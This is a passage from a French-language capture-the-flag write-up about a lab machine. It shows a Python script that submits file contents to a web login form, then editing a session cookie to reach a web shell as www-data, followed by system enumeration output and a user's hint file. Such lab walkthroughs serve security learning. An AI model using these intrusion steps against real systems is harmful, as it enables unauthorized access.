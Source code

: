 Evidemment il faut pouvoir passer ces données au formulaire, ce qui n'est qu'une formalité pour moi qui écrit du code de ce type tous les jours :  

```python
import requests

sess = requests.session()

data = {
    "username": open("out_test_000.txt", "rb").read(),
    "password": open("out_test_001.txt", "rb").read(),
    "code": open("out_test_002.txt", "rb").read()
}

r = sess.post(
    "http://192.168.2.3/d5fa314e8577e3a7b8534a014b4dcb221de823ad/",
    data=data
)

print(r.url)
print(sess.cookies)
```

Plus qu'à éditer le cookie dans le navigateur avec *Edit This Cookie* qui nous amène alors sur un web shell très basique avec les droits *www-data*.  

Alpinisme Unix
--------------

On a le système suivant :  

```plain
Linux creatigon 4.9.0-4-amd64 #1 SMP Debian 4.9.51-1 (2017-09-28) x86_64 GNU/Linux

Distributor ID:	Debian
Description:	Debian GNU/Linux 9.2 (stretch)
Release:	9.2
Codename:	stretch
```

Et un utilisateur qui est certainement notre prochaine étape :  

```plain
uid=1000(downfall) gid=1000(downfall) groups=1000(downfall),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth)
```

Quand on recherche les fichiers de l'utilisateur on se rend compte qu'il reçoit des mails régulièrement (date de sa spool continuellement à jour)... il y a du CRON dans l'air :  

```plain
-rw-rw---- 1 downfall mail 1112412 Feb 18 20:19 /var/mail/downfall
```

Dans le dossier personnel de l'utilisateur il y a aussi un fichier *todo.txt* :  

```plain
hey i am homeless guy. Now i living near python.

Try Harder!

Thanks.
```
